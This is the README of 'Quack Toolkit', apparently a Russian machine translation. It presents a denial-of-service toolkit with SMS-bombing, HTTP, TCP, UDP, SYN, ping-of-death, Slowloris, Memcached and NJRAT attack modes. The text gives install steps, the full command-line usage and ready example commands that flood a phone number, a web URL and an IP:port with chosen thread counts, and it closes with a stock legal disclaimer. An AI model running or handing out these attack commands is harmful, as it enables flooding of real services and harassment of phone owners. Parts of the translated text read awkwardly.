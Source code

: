 

# О наборе инструментов Quack

```
Это набор инструментов для отказа
сервисных атак. Quack Toolkit включает SMS-атаку
инструмент, инструмент атаки HTTP и многие другие инструменты атаки.
```

***

# Начинаем

## Quack установка

> cd quack

> chmod +x install.sh

> ./install.sh

## Удаление Quack

> cd quack

> chmod +x uninstall.sh

> ./uninstall.sh

***

# Выполнение Quack Toolkit

```
Для запуска Quack Toolkit вам необходимо:
выполните следующую команду.
```

> quack

```
usage: quack [-h] [--target <ip:port/URL/phone>]
             [--tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]]
             [--timeout <timeout>] [--threads <threads>] [-u] [--version]

optional arguments:
  -h, --help            Показать это справочное сообщение и выйти
  --target <ip:port/URL/phone>
                        Целевой IP-адрес и порт, URL-адрес или телефон.
  --tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]
                        Инструмент атаки.
  --timeout <timeout>   Тайм-аут в секундах.
  --threads <threads>   Количество потоков.
  -u, --update          Обновите Quack Toolkit.
  --version             Показать версию Quack Toolkit.
```

***
  
# Примеры Quack Toolkit

## Пример SMS-атаки
    
> quack --tool SMS --target 15554443333 --timeout 10 --threads 10
    
## Пример HTTP-атаки

> quack --tool HTTP --target http://<span></span>example.com/ --timeout 10 --threads 10
    
## Пример атаки TCP

> quack --tool TCP --target 192.168.1.100:80 --timeout 10 --threads 10

***

# Отказ от ответственности Quack Toolkit

```

Использование Quack Toolkit для атаки целей без предварительного обоюдного согласия является незаконным.
Конечный пользователь обязан соблюдать все применимые местные, государственные, федеральные и международные законы.
Разработчики не несут ответственности и не несут ответственности за любое неправильное использование или ущерб, причиненный этой программой.


```
